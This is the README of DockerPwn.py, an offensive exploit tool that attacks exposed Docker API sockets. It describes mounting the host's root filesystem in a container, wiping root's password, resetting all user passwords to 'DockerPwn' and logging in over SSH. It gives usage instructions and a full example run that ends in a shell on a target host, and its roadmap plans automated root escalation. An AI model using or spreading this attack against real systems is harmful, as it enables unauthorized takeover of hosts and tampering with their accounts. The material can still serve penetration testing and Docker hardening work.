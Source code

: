 # DockerPwn.py

Exploit for exposed Docker TCP Socket.

This will automatically create a container on the Docker host with the root filesystem mounted,
allowing arbitrary read and write of the root filesystem (which is bad).

Once created, the script will empty the password requirement for 'root', and will alter any user
with a valid Unix password to have a password of 'DockerPwn'

Once this is done, the script will attempt to use Paramiko to login to all users enumerated from 
/etc/passwd using the password 'DockerPwn', and a shell will be spawned. 

## Roadmap:

Utilize the limited command execution via Paramiko to get a better shell, and automatically escalate to root.


## Usage:
```
DockerPwn.py [-h] [--target TARGET] [--port PORT]

optional arguments:
  -h, --help       show this help message and exit
  --target TARGET  IP of Docker Host
  --port PORT      Docker API TCP Port
 ```
## Example Output:

```
Dylans-MacBook-Pro:~ dylan$ /usr/local/bin/python3 /Users/dylan/Documents/DockerPwn.py --target 192.168.0.20 --port 2375

[+] Successfully probed the API. Writing out list of containers just in case there's something cool.

[+] Downloading latest Alpine Image for a lightweight pwning experience.

[+] Alpine image is downloading to the host. Hope we aren't setting off any alarms. Sleeping for a bit.

[+] Alright, creating Alpine Linux Container now...

[+] Success! Created container with root volume mounted. Got ID 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c!

[+] Starting container 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c

[+] Container successfully started. Blue team will be with you shortly.

[+] Phew, alright. Creating the EXEC to change passwords.

[+] EXEC successfully created on container! Got ID bc5ee929577554b9bc573b33c4a7e811542657a6aaeba6791d07bbdcc602103f!

[+] Now triggering the EXEC to change passwords. Hope SSH is open...

[+] EXEC successfully triggered. Printing users found in /etc/passwd.

[!] User List: root daemon bin sys sync games man lp mail news uucp proxy www-data backup list irc gnats nobody systemd-network systemd-resolve syslog messagebus _apt lxd uuidd dnsmasq landscape pollinate sshd dylan

[+] OK, looking good. Attempting to open shell as root. This may take a minute or two.

[-] Login failed for root
[-] Login failed for daemon
[-] Login failed for bin
[-] Login failed for sys
[-] Login failed for sync
[-] Login failed for games
[-] Login failed for man
[-] Login failed for lp
[-] Login failed for mail
[-] Login failed for news
[-] Login failed for uucp
[-] Login failed for proxy
[-] Login failed for www-data
[-] Login failed for backup
[-] Login failed for list
[-] Login failed for irc
[-] Login failed for gnats
[-] Login failed for nobody
[-] Login failed for systemd-network
[-] Login failed for systemd-resolve
[-] Login failed for syslog
[-] Login failed for messagebus
[-] Login failed for _apt
[-] Login failed for lxd
[-] Login failed for uuidd
[-] Login failed for dnsmasq
[-] Login failed for landscape
[-] Login failed for pollinate
[-] Login failed for sshd
[+] Login succeeded for dylan!

DockerPwn@192.168.0.20> id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

DockerPwn@192.168.0.20> 
```
